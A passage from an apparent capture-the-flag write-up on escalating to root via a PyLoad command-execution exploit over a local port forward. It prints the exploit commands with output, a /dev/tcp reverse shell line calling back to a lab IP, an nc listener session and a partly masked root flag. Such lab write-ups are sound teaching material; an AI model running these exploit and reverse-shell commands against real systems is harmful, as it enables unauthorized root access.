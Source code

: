 From here we can run the exploit code to verify that the server is vulnerable.

**HOST**

We have our local port forward running and download the above exploit to our current directory and name it `exploit.py`. We run the command `id` and save it to a tmp file to verify it works and to see who PyLoad is running as.

```console
toasty@kali$ python3 exploit.py -u http://localhost:8005 -c "id > /tmp/tmpdir/exploitfile"
[+] Check if target host is alive: http://localhost:8005
[+] Host up, let's exploit! 
[+] The exploit has be executeded in target machine. 
```

**TARGET**

Since the exploit said it was successful, we can read the temp file we created and see that we are able to run commands as `root`.

```console
sau@pc:/tmp/tmpdir$ ls
exploitfile
sau@pc:/tmp/tmpdir$ cat exploitfile 
uid=0(root) gid=0(root) groups=0(root)
```

### Getting Reverse Shell

We can use the command execution as root to get a reverse shell. Trying to directly input the reverse shell command in the exploit did not work so we can use a temp file to store the command and then execute it.

**TEMP FILE**

We host the file on the target machine at `/tmp/tmpdir/revshell` and it contains the following:

```console
/bin/sh -i >& /dev/tcp/10.10.14.112/8443 0>&1
```

**HOST**

Then we set up a listener on our host machine and run the exploit again. This time we `cat` out the contents of `revshell` file and pipe it to `bash` to execute it.

```console
python3 exploit.py -u http://localhost:8005 -c "cat /tmp/tmpdir/revshell | bash"
[+] Check if target host is alive: http://localhost:8005
[+] Host up, let's exploit! 
```

**LISTENER**

```console
toasty@kali$ nc -lvnp 8443
listening on [any] 8443 ...
connect to [10.10.14.112] from (UNKNOWN) [10.10.11.214] 49594
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)

```

### Root.txt

Now we can just cat the root flag.

```console
# cat /root/root.txt
a1f0***************************
```
